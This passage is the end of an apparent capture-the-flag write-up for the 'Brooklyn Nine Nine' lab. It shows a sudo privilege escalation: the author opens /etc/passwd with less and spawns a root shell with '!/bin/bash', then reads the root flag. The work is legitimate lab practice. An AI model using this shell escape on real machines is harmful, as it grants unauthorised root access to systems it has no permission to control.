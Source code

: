 Taking a quick look to [GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo) i found that `less` allow us to inject commands while opening a file, so we just have to open any file as `root` and inject `!/bin/bash`.

```bash
jake@brookly_nine_nine:~$ sudo less /etc/passwd
WARNING: terminal is not fully functional
!/bin/bash
root@brookly_nine_nine:~# whoami
root
```

Now we can open the `root.txt` flag.

```bash
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0e******050796b*****481845

Enjoy!!
```

---
## Final Thoughts

The **Brooklyn Nine Nine CTF** offered a unique and engaging experience, combining web enumeration with steganography to uncover hidden data. This creative approach, paired with privilege escalation, made it both entertaining and educational—an excellent way to enhance problem-solving and technical skills.

![Desktop View](BrooklynPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

